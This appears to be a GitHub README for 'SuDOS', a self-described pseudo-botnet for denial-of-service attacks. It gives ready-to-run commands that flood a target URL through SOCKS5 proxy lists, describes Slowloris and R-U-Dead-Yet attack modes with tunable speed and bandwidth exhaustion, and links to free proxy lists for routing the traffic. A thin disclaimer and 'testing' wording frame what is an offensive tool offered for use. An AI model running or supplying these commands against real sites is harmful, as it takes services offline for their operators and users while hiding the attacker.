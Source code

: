 # SuDOS

SuDOS is a pseudo-botnet.

Discord: https://discord.com/invite/dZSDbjJPHx

# Disclaimer
- I will not be responsible for any misuse of this tool. Do it at your own risk!
- This content is currently on early version and made experimentaly. Many bugs may occur!

# Usages
- Basic usage
```
python sudos.py -z socks5 -x socks5_list.txt https://target.com/
```
- Harder testing usage
```
python sudos.py -z socks5 -x socks5_list.txt -t 500 -c 0 https://target.com/
```
- Server bandwidth consuming test
```
python sudos.py -z socks5 -x socks5_list.txt -c 0 -n https://target.com/
```

# Attack Modes
You can set the attack mode with the `-m <MODE>` parameter.

## Attack Mode 1
Attack mode 1 (Default) aka Slowloris sends numerous amount of HTTP GET requests. You can set the HTTP request sending speed with the `-c <INT>` parameter.

## Attack Mode 2
Attack mode 2 aka R-U-Dead-Yet sends a POST request and slowly send the content to the server. You can also set the content sending speed with the `-c <INT>` parameter.

# Where do I get proxy lists?
Just click the links below and find a best proxy list for yourself.
- https://openproxy.space/list
- https://www.proxy-list.download/
- https://www.proxyscrape.com/free-proxy-list

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_6.png" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_5.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_4.png" width=300/>
